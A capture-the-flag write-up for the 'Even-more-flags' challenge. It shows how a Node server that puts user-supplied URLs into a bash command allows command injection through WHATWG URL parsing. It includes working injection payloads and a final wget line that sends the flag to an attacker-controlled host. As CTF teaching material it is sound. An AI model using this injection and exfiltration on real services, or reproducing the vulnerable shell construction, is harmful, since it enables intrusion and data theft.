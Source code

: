 # Even-more-flags Writeup from L.A.R.S.

## Setup

As always, for the local setup we run the docker container:
```bash
docker build -t even-more-flags . && docker run -p 1337:1337 -t even-more-flags
```

And for remote we use the suggested command:
```bash
ncat --ssl even-more-flags.ctf.kitctf.de 443
```
This gives us an instance for 29 minutes -- we can make it!


## Looking around

### Dockerfile

From the `Dockerfile` we can learn that chrome is installed (together with some fonts) and a node server (using `package.json` and `server.js`) is started up.
The flag seems to be stored in `/flag`.

### server.js

From the `server.js` we can learn that there's an interface for entering a URL. After submitting, chrome is started with all the flags from `flags.txt`, opening the url we entered.
Notably, the url is checked:
```js
let parsed = new URL(url);
if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') {
  return res.status(400).send('Invalid URL');
}
```
... and appended like this:
```js
const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags} ${url}"`;
```
After some time it's killed again.

Also, the flag seems to be available with the `/flag` endpoint, but only for localhost connections.

### flags.txt

In `flags.txt` we do indeed seem to find all the flags available.
So it's not even more flags after all!

## Exploiting

### A dream of injection

So the url has to start with `http:` or `https:` and somehow be parsable to a `URL`. That doesn't mean though that no injection is possible:
We *should* be able to append an ampersand after a valid url part, so that *in parallel* to the chrome process, some other process is executed.

The `stdout` seems to be printed to the console, so we should be able to see results in our local docker. So let's try a simple code injection:
```
https://test.org & echo 'Hi!'
```
But that fails:
```js
TypeError: Invalid URL
    at new URL (node:internal/url:797:36)
    at /app/server.js:44:16
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:149:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/app/node_modules/express/lib/router/index.js:346:12)
    at next (/app/node_modules/express/lib/router/index.js:280:10)
    at /app/server.js:20:3
```

There seems to be something wrong... After playing around a bit, we can figure out that the string
```
https://test.org/ & echo 'Hi!'
```
works and `Hi!` is printed to `Stdout`. But *why*?

### Excursion to Nodes URL

From the [documentation](https://nodejs.org/api/url.html#the-whatwg-url-api) we can learn that the `URL` class is
> implemented by following the WHATWG URL Standard.

The problem seems to be that space is [forbidden in the host](https://url.spec.whatwg.org/#host-miscellaneous):
> A forbidden host code point is U+0000 NULL, U+0009 TAB, U+000A LF, U+000D CR, U+0020 SPACE, U+0023 (#), U+002F (/), U+003A (:), U+003C (<), U+003E (>), U+003F (?), U+0040 (@), U+005B ([), U+005C (\), U+005D (]), U+005E (^), or U+007C (|).

As we can see [in this part of the specs](https://url.spec.whatwg.org/#hostname-state) the *host state* ends at a slash and the *path start state* is entered:
> ...
> 3. Otherwise, if one of the following is true:
> - c is the EOF code point, U+002F (/), U+003F (?), or U+0023 (#)
> [...]
> then[...]
> [...]
> 5. Set url’s host to host, buffer to the empty string, and state to path start state. 

There the url [is special](https://url.spec.whatwg.org/#special-scheme), since it's `http` or `https`, so the [*path state*](https://url.spec.whatwg.org/#path-state) is entered.
Since there was indeed a `/`, there's no `\`, the buffer is not a double-dot URL path segment, nor a single-dot URL path segment and the url's scheme is not "file", the buffer is appended to the url's path.
This gets a bit more complicated still, but basically what happens is that the `/` indicates that the stuff afterwards relates to the path, not to the domain.
Otherwise the space is parsed as part of the domain, which is doomed to fail.

So, long story short, if we have a `/` somewhere in the "normal" URL, we can write (almost) everything we want afterwards.


### Just upload it!

With all that we can now inject `bash` code. 
For example, the minimal url to print *Hi* to `stdout` would be:
```bash
http:./ & echo "Hi"
```
Lucky for us that the chrome process doesn't need to do anything sensible with that url...
However, we do want to do something sensible; that is, we don't just want to echo *Hi* to the console, but rather capture the flag!

For that the idea is to read the flag and make an http request to some webserver we control, from which we can read the flag from the logs. This could look something like this then:
```bash
http:./ & wget <some-url-where-we-can-view-logs>?data=`wget localhost:1337/flag -O -`
```

And indeed, if we run this in our docker, we can see the fake flag being submitted in the docker logs, and the fake flag arriving in our server docs.

If we now use this exploit url on the remote, we **receive our flag!**
